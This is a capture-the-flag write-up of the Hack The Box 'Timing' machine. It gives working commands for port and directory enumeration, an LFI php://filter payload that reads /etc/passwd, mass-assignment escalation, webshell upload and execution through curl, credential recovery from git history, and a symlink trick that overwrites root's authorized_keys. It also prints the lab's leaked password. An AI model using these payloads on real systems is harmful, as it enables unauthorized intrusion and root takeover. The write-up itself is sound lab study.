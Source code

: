 # [Timing](https://app.hackthebox.com/machines/Timing)

```bash
nmap -p- --min-rate 10000 10.10.11.135 -Pn
```

![alt text](img/image.png)


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.135 -Pn 
```

![alt text](img/image-1.png)


Let's do `Directory Enumeration`.

```bash
gobuster dir -u http://10.10.11.135 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php
```

![alt text](img/image-2.png)

![alt text](img/image-3.png)

I found `db.conn.php` file also.


There's `image.php` file and I want to search specific `parameter` for files, that's why I use `wfuzz`.
```bash
wfuzz -u http://10.10.11.135/image.php?FUZZ=images/user-icon.png -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0
```

![alt text](img/image-4.png)

That's `img` parameter for `image.php` file.


Let's inject `Directory Traversal` payload into `img` parameter.

![alt text](img/image-5.png)

After this, I submit payload via `php` and it works.
```bash
php://filter/convert.base64-encode/resource=/etc/passwd
```

![alt text](img/image-6.png)


If we substitute `base64` encoded via another fuzzy data, we can see in decoded way.

![alt text](img/image-7.png)


Let's look at `db_conn.php` file.

![alt text](img/image-8.png)

There are two main users called `syslog` and `aaron`.

![alt text](img/image-9.png)


While I submit `aaron:aaron` credentials to `login.php` , I successfully authenticated.

![alt text](img/image-10.png)


While I try to `Update Profile` functionality, I can see response data and there a lot of data even password of comrpomised user.

![alt text](img/image-11.png)


From response, I see `role` key which equal to 0, if I can change this into `1`, probably my user's privilege can be administrator.


Let's do `Mass Assignment` vulnerability, that I add `role` parameter into request.

![alt text](img/image-12.png)


While I browse `profile.php` file, I see that I am `Admin` user already.

![alt text](img/image-13.png)


While I look at `Admin` panel, I see that there can be option about uploading avatar.

Let's read source code `upload.php` file via `Directory Traversal` vulnerability.

![alt text](img/image-14.png)


From this logic, I see that I need to upload php `webshell` file into machine via `.jpg` extension, also change name of this file due to **Time** when I upload.


First, let's create php webshell via `.jpg` extension and upload into form.

![alt text](img/image-15.png)


From response, I take `Date` value 'Date: Fri, 23 Feb 2024 12:46:24 GMT' and use this to find correct location of my php webshell.

```php
$t="Fri, 23 Feb 2024 12:46:24 GMT";
echo strtotime($t);
echo md5('$file_hash' . strtotime($t)) . '_dr4ks.jpg';
```

![alt text](img/image-16.png)


I guess that webshell is located on this file '99aca32053f1e156df243acd41cb5158_dr4ks.jpg'.


Let's browse webshell to execute commands.
```bash
curl 'http://10.10.11.135/image.php?img=images/uploads/99aca32053f1e156df243acd41cb5158_dr4ks.jpg' -d 'cmd=id'
```

![alt text](img/image-17.png)


I tried to add `reverse shell` payload into here, but none of them worked.


Let's code `Bash` script and to see results.

![alt text](img/image-18.png)

I looked at `/opt` directory and find `source-files-backup.zip` file, let's download this.
```bash
bash webshell.sh "cat /opt/source-files-backup.zip" > source-files-backup.zip
```

![alt text](img/image-19.png)


After I `unzip` this zip file, I found `backup` directory and there is `.git` directory. Let's look at back commits via `git` command.

![alt text](img/image-20.png)


I looked at last commits via `git log` command.
```bash
git log --name-only --oneline 
```

![alt text](img/image-21.png)


Let's commit back into previous to search sensitive credentials by using `git checkout` command.
```bash
git checkout e4e2146 
```

![alt text](img/image-22.png)



Now, there's another password for `db_conn.php` file.

![alt text](img/image-23.png)


Password: S3cr3t_unGu3ss4bl3_p422w0Rd

Let's try to connect into machine via `aaron` user by using this password.

aaron: S3cr3t_unGu3ss4bl3_p422w0Rd

user.txt

![alt text](img/image-24.png)



While looking at `privileges` of this user via `sudo -l` command.

![alt text](img/image-25.png)


While I run `netutils` command via `sudo` privileges, I can enter `HTTP` url into here.

First, let's create http server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-26.png)


And we enter value to here for downloading purposes.

![alt text](img/image-27.png)


Let's create `.lnk` file as below.
```bash
ln -s /root/.ssh/authorized_keys dr4ks.pub
```

![alt text](img/image-28.png)

And we download `dr4ks.pub` file.

![alt text](img/image-29.png)


As this process is done, let's connect into machine via private key `id_rsa` file.

root.txt

![alt text](img/image-30.png)
